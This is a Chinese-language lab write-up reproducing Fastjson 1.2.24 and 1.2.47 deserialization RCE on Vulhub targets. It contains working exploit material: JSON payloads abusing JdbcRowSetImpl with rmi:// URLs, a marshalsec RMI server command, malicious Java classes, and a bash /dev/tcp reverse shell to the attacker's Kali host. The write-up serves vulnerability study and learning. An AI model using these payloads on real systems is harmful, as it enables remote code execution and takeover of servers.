

# Fastjson 漏洞复现

## 前置

> 文章大致来源： https://blog.csdn.net/Bossfrank/article/details/130100893 | https://www.freebuf.com/vuls/419185.html  | https://www.bilibili.com/video/BV1Ab4y1d7w1/?vd_source=6964e7363b2890dfa96390e0ef245ead 本文仅做学习复现并汇总
> 

> POC大全：https://github.com/safe6Sec/Fastjson
> 

Fastjson是阿里开发一个Java类库，可以将Java对象转换为JSON格式（序列化），也可以将JSON字符串转换为Java对象（反序列化）

```scheme
//序列化
String text = JSON.toJSONString(obj); 
//反序列化
VO vo = JSON.parse(); //解析为JSONObject类型或者JSONArray类型
VO vo = JSON.parseObject("{...}"); //JSON文本解析成JSONObject类型
VO vo = JSON.parseObject("{...}", VO.class); //JSON文本解析成VO.class类
```

## 漏洞原理

fastjson为了读取并判断传入的值是什么类型（因为setter/getter的限制而增加了`autotype`），增加了`autotype`机制导致了漏洞产生。

使用AutoType 功能进行序列化的JSON字符会带有`@type`来标记其字符的原始类型，在反序列化的时候读取`@type` ，试图把JSON内容反序列化为Java对象，并且会调用这个库的setter和getter方法，由于反序列化的特性，可以通过setter方法自由设置 `@type` 的目标类的属性值。

常见的POC是通过sun官方一个类 **com.sun.rowset.JdbcRowSetImpl**，其中 **dataSourceName** 方法可以传入一个rmi源，只要解析了其中的url就会远程调用。

1. 攻击者访问存在Fastjson漏洞的靶机，通过burpsuite抓包，添加json格式的**com.sun.rowset.JdbcRowSetImpl** 恶意类信息发送给靶机
2. 靶机进行 json 反序列化的时候，会加载我们的恶意信息去访问 rmi 服务器，靶机就会向 rmi 服务器请求待执行的命令
3. rmi 服务器会加载远程服务器的 class（这个远程机器是我们搭建好的恶意站点，提前将漏洞利用的代码编译得到 .class文件，并上传至恶意站点），得到攻击者（我们）构造好的命令（ping dnslog或者**创建文件**或者**反弹shell**啥的）
4. rmi 将远程加载的 class 作为响应返回给靶机
5. 靶机执行了恶意命令，被攻击者成功调用



## 漏洞复现 - Fastjson 1.2.24 RCE

### 运行靶机

靶机IP：`192.168.111.170`，Kali IP：`192.168.111.162` ，rmi 服务器：`192.168.111.1`

这里使用Vulhub来搭建存在Fastjson漏洞的靶机，进入到`/vulhub/fastjson/1.2.24-rce` 然后运行

```scheme
docker compose up -d
```

```scheme
root@sunset-ubuntu:/home/sunset/Desktop/vulhub/fastjson/1.2.24-rce# docker compose up -d
[+] Running 9/9
 ✔ web Pulled                                                                                                                                                                                                                 32.0s 
   ✔ 43c265008fae Pull complete                                                                                                                                                                                               21.2s 
   ✔ af36d2c7a148 Pull complete                                                                                                                                                                                               22.5s 
   ✔ 2b7b4d10e1c1 Pull complete                                                                                                                                                                                               22.6s 
   ✔ f264389d8f2f Pull complete                                                                                                                                                                                               22.6s 
   ✔ 1a2c46e93f4a Pull complete                                                                                                                                                                                               22.6s 
   ✔ f9506bb322c0 Pull complete                                                                                                                                                                                               27.2s 
   ✔ 96f5dad14c2c Pull complete                                                                                                                                                                                               27.2s 
   ✔ 21645f07c1be Pull complete                                                                                                                                                                                               27.4s 
[+] Running 2/2
 ✔ Network 1224-rce_default  Created                                                                                                                                                                                           0.1s 
 ✔ Container 1224-rce-web-1  Started                                                                                                                                                                                           1.0s 
root@sunset-ubuntu:/home/sunset/Desktop/vulhub/fastjson/1.2.24-rce# docker ps
CONTAINER ID   IMAGE                    COMMAND                  CREATED              STATUS              PORTS                                         NAMES
2e7f7c866253   vulhub/fastjson:1.2.24   "java -Dserver.addre…"   About a minute ago   Up About a minute   0.0.0.0:8090->8090/tcp, [::]:8090->8090/tcp   1224-rce-web-1
root@sunset-ubuntu:/home/sunset/Desktop/vulhub/fastjson/1.2.24-rce# 
[0] 0:bash*                                                                                                                                                                                          "sunset-ubuntu" 21:27 13-Mar-25
```

我们测试一下靶机，使用`Kali`访问靶机

```scheme
⚡ root@kali  ~  curl 192.168.111.170:8090                                               
{
        "age":25,
        "name":"Bob"
}#                         
```

### 搭建恶意站点

1. 创建 `class` 文件，因为是 Java 文件，对版本要求比较严格，要求Java和Javac版本一致
    
    ```scheme
     ⚡ root@kali  /usr/local/jdk1.8.0_202/bin  ./java -version
    Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
    java version "1.8.0_202"
    Java(TM) SE Runtime Environment (build 1.8.0_202-b08)
    Java HotSpot(TM) 64-Bit Server VM (build 25.202-b08, mixed mode)
     ⚡ root@kali  /usr/local/jdk1.8.0_202/bin  ./javac -version 
    Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
    javac 1.8.0_202
    ```
    
2. 创建`TouchFlie.java` ，作用是创建 `/tmp/successBySunset` 文件
    
    ```scheme
    import java.lang.Runtime;
    import java.lang.Process;
     
    public class TouchFile {
        static {
            try {
                Runtime rt = Runtime.getRuntime();
                String[] commands = {"touch", "/tmp/successBySunset"};
                Process pc = rt.exec(commands);
                pc.waitFor();
            } catch (Exception e) {
                // do nothing
            }
        }
    }
    ```
    
3. 编译`TouchFlie.java` 生成 `.class` 文件
    
    
    
4. 在 `.class` 所在文件夹开一个简易服务器
    
    ```scheme
     ⚡ root@kali  ~/Desktop/test/test/Fastjson  python -m http.server 8081  
    Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
    ```
    
    
    

### 创建 rmi 服务器

需要用到`marshalsec`项目来启动`rmi`服务器 ：https://github.com/bkfish/Apache-Log4j-Learning/tree/main/tools

1. 将 `jar` 文件下载下来
2. 使用`marshalsec` 启动 rmi 服务器，监听端口`8082`并远程加载类`TouchFile.class` （这里使用Windows，Kali2024.4会出现内存不足，复现Shiro的时候也出现过此类问题）
    
    ```scheme
    PS D:\System\Downloads\20250313> java -cp .\marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.111.162:8081/#TouchFile" 8082
    * Opening JRMP listener on 8082
    ```
    

### 漏洞利用

使用burp抓取靶机的包`192.168.111.170:8090` 并将请求方式改为`POST` ，再发送到重放器


添加payload，尝试了失败知乎可以按照我这个数据包来修改

```scheme
POST / HTTP/1.1
Host: 192.168.111.170:8090
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-CN;q=0.9
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 163

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.111.1:8082/TouchFile",
        "autoCommit":true
    }
}
```


在`rmi`服务器可以看到回显


恶意站点也被请求了


我们查看`/tmp/successBySunset`是否被创建成功了

复现成功


### 反弹 shell

那么如何进行反弹shell呢？只要修改一下`TouchFile.java`即可，然后将其进行编译成`class`文件

```java
import java.lang.Runtime;
import java.lang.Process;
 
public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"/bin/bash","-c","bash -i >& /dev/tcp/192.168.111.162/7777 0>&1"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

kali开启监听

```java
 ⚡ root@kali  ~/Desktop/test/test/Fastjson  nc -lvp 7777                                             
listening on [any] 7777 ...
```

再发送一次包，即可获得`shell`


## 漏洞复现 - Fastjson 1.2.47 RCE

相对 1.2.24 的反序列化漏洞，Fastjson 将很多可利用的都被过滤了，并且将`AutoType`默认关闭了

但是在 Fastjson 中有一个全局缓存，在类加载的时候，如果 `AutoType` 没开启，则会尝试向缓存里面获取类，如果缓存中有，那么就直接返回

然后在 `java.lang.Class` 类对应的 `deserializer` 为 `MiscCodec` ，反序列化时会取`Json`串中的`val` 值并加载这个 `val` 对应的类

但是只有 `Fastjson cache` 为 true，才会缓存 val 对应的 class 到全局缓存中

### 漏洞复现

靶机目录`/vulhub/fastjson/1.2.47-rce` 

复现过程和上边一模一样，只需要更改payload

```java
POST / HTTP/1.1
Host: 192.168.111.170:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
DNT: 1
Sec-GPC: 1
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/json
Content-Length: 265

{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.111.1:8082/TouchFile",
        "autoCommit":true
    }
}
```


## 修复建议

更新到最新版本